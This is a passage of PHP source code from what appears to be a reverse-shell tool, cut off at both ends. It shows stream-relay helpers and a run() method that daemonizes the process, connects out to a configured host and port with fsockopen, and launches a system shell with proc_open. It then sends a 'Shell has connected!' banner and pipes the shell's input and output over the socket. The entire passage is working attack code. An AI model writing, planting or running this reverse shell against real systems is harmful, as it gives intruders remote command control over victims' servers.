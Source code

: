 ```php
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $size = fstat($input)['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // so we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: {$status['pid']}\n");
                    do {
                        $status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
```